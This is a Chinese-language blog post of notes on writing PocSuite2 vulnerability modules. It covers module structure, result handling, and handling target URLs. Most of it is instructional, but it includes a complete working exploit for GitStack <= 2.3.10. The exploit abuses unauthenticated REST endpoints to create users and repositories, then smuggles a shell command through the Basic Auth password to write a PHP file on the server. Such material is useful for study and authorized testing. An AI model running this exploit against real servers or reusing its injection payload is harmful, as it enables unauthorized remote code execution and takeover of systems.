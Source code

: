 ```yaml
---
layout: post
title:  "PocSuite编写及使用笔记"
date:   2019-7-29 16:18:43
categories: Development
author: co0ontty
categories: 安全开发 ALL
tags: 安全开发 ALL
describe: PocSuite编写及使用笔记
cover: '/assets/img/posts/pocsuitecover.png'
---
```

## 关于PocSuite
[PocSuite](http://pocsuite.org)是由知道创宇404实验室编写的一款基于python的开源漏洞利用框架。PocSuite包含漏洞检测和利用两种模式，可以针对特定漏洞对多个目标进行探测并返回漏洞检测及利用的结果。
![使用过程图](/assets/img/posts/pocsuite1.png)
## PocSuite2
关于PocSuite2的编写方法及使用过程中的注意事项
### PocSuite2编写格式
PocSuite检测模块的构成主要由以下几部分构成：
·python库的引用模块
·关于poc的介绍信息模块
·漏洞检测代码模块
·漏洞利用代码模块
·返回结果模块
### python库引用模块
```python
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth
```
在该模块声明漏洞检测及利用过程中需要使用到的python库，其中`from pocsuite.api.poc import Output, POCBase 和 from pocsuite.api.poc import register`是必须要引用的库

### 关于poc的介绍信息模块
```python
    vulID = 'N/A' #根据seebug提供的漏洞编号进行编写，没有的话可以写N/A
    version = '1.0' #该poc的版本
    author = 'co0ontty' #编写作者
    vulDate = '2019-7-11' #漏洞时间
    createDate = '2019-7-16' #创建poc的时间
    updateDate = '2019-7-16' #更新时间
    references = ['https://xz.aliyun.com/t/2235'] #关于该漏洞的参考信息网站
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析' #漏洞名称
    appPowerLink = 'https://gitstack.com' #存在漏洞的服务的官网
    appName = 'GitStack' #存在漏洞的服务的名称
    appVersion = 'GitStack <= 2.3.10' #存在漏洞的服务的版本
    vulType = '文件上传' #该漏洞的类型（参考seebug官网的漏洞类型分类）
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    ''' # 漏洞的介绍信息
    samples = []
    install_requires = []
```
### 漏洞检测代码模块
```python
def _verify(self):
        result = {}
        target = self.url
        #your verify code
        if 判断条件:
            result['VerifyInfo'] = {} # 标识为成功
            result['VerifyInfo']['URL'] = self.url #返回到结果中的url
            pass
        return self.parse_output(result) # 返回结果
```
系统会根据用户编写的检测代码对漏洞进行检测，设置判断条件后，如果判断条件为真，则使用`result['VerifyInfo'] = {}`返回判断结果为真，并且使用`result['VerifyInfo']['URL'] = self.url`返回向返回结果中输出特定的值。最后程序在运行`return self.parse_output(result)`结果输出代码的时候，如果存在`result['VerifyInfo'] = {}`则返回success，如果不存在则判断为faild
### 漏洞利用代码模块

```python
def _attack(self):
    # attack code 
```
一般情况下会设置检测代码与漏洞利用代码相同：
```python
_attack = _verify
```
### 返回结果模块

```python
def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output
```
将漏洞检测模块或者漏洞利用模块的结果输出到屏幕中显示

### 完整代码分享
GitStack任意文件上传漏洞
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# from pocsuite.api.request import req
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _verify(self):
        result = {}
        target = self.url
        repository = 'rce'
        username = 'rce'
        password = 'rce'
        csrf_token = 'token'
        user_list = []
        r = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r = requests.get("{}/rest/repository/".format(target))
        repository_list = r.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        r = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php echo"'+random_identify_code+'"; ?>" > c:'+random_file_name))
        test_url = target+"/web/"+random_file_name
        r = requests.get(test_url)
        if (r.status_code == 200)&(random_identify_code in r.text):
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            pass
        return self.parse_output(result)

    _attack = _verify

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```
## 库的使用
### requests 库
pocsuite中自带经过改装的req，`from pocsuite.api.request import req`，pocsuite 中的req可以使用随机的UA
### urlparse
使用如下命令时，py中调用目标的方式时通过 self.url 和 self.target 
```python
pocsuite -r portals_urllib.py -u 172.16.5.155:8080
```
self.url 与 self.target 的区别为：如果 -u 传递的参数没有指定 http 或者 https 的话，self.url 会自动添加 http:// 而 self.target 则不会做任何操作。
![使用过程图](/assets/img/posts/pocsuite-4.png)
不管怎样，self.url 和 self.target 均无法对端口进行识别和操作，所以我们要引入 urlparse 库：
### urlparse库
**urlparse.urlparse(分离）**
![urlparse.urlparse](/assets/img/posts/pocsuite-6.png)
**urlparse.urljoin（合并）**
![urlparse.urljoin](/assets/img/posts/pocsuite-5.png)